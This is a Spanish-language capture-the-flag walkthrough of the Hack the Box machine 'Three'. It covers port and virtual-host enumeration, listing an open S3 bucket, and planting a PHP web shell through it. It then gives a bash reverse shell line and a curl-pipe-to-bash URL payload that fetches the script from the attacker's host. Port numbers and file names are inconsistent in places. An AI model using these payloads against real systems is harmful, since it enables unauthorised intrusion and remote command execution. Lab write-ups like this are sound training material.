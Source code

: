 ```yaml
---
title: Three HTB walkthrough
published: false
---
```


# Three HTB walkthrough

En este artículo trataremos la resolucion de la máquina Three de Hack the Box.

## Fase de reconocimiento

Comenzamos lanzando un ping para comprobar que la máquina se encuentra activa. En base al ttl comenzamos a sospechar que se trata de una máquina linux. A continuación lanzamos nmap en busca de puertos abiertos, utilizando parámetros que aceleren la busqueda:

```bsh
$sudo nmap -p- --open -sS --min-rate 5000 -n -Pn <ip>
```

Obteniendo:

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Sospechamos que se trata de una página web, así que la inspeccionamos.

### Reconocimiento de la página web

En la página web no se aprecia nada sospechoso, es una simple página estática. Analizamos con *whatweb*:

```s
$whatweb 10.129.204.158
http://10.129.204.158 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.204.158], Script, Title[The Toppers]
```

Tanto en whatweb como el la propia página, en la sección de *contacto*, podemos identificar el dominio *thetoppers.htb*. Tras añadirlo al */etc/hosts*, podríamos tratar de enumerar posibles subdominios, utilizando gobuster:

```s
$sudo gobuster vhost -w subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/02 11:07:50 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]

```

Obteniendo que existe un subdominio *s3.thetoppers.htb*. Si hacemos una búsqueda rápida de algo como *"s3 subdomain status running"*, comprobaremos que se trata de un servicio de almacenamiento en la nube que nos permite almacenar objetos en contenedores llamados *buckets*.

## Interactuando con el bucket s3

Para interactuar con este servicio utilizaremos una utilidad llamada *awscli*. La instalamos con `$sudo apt install awscli`. Además, antes de utilizarla debemos configurarla, porque aunque en ocasiones el servicio no requiera utenticación, la utilidad requiere tener algún valor para funcionar:

```s
$aws configure
aws configure
AWS Access Key ID [None]: temp 
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

Ahora ya podemos tratar de listar el contenido del bucket:

```
$aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-02-02 09:14:10          0 .htaccess
2023-02-02 09:14:11      11952 index.php
```

Vemos un par de archivos (*index.php* y *.htaccess*) y el directorio *images*, lo que nos da a entender que podría ser la raíz del sitio web. *awslci* también nos permite copiar archivos a un bucket, por lo que podríamos intentar subir una shell al servidor. Antes vimos mediante whatweb que la página estaba escrita en php, por lo que utilizaremos el siguiente one-liner:

```php
<?php system($_GET["cmd"]); ?>
```

Lo guardamos en un fichero .php:

```s
$echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Y la subimos con:

```s
$aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Y ya tendríamos la posibilidad de ejecución remota de comandos pasados como parámetros de la url. Por ejemplo:

```
http://thetoppers.htb/shell.php?cmd=id
```

Que devolvería:

```powershell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Obteniendo una reverse shell

En este punto, podríamos tratar de conseguir que la máquina víctima se conectara de vuelta a nuestra máquina, otorgándonos una reverse shell. Para ello, creamos el siguiente fichero en bash:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

y nos quedamos en escucha mediante netcat por el puerto 443:

```s
nc -nvlp 1337
```

Además, crearemos en otra pestaña un servidor http con python en el puerto 8000:

```python
python3 -m http.server 8080
```

De esta forma, podemos desde el servidor buscar nuestra reverse shell conectádonos a nuestro equipo por el servidor http, para posteriormente pipear a bash para que se ejecute, entablando la conexión por el puerto 443:

```
http://thetoppers.htb/reverse_shell.php?cmd=curl%20<your_ip>:8080/reverseshell.sh|bash
```

Y una vez dentro, la flag está en /var/www/, enhorabuena, has conseguido la flag!
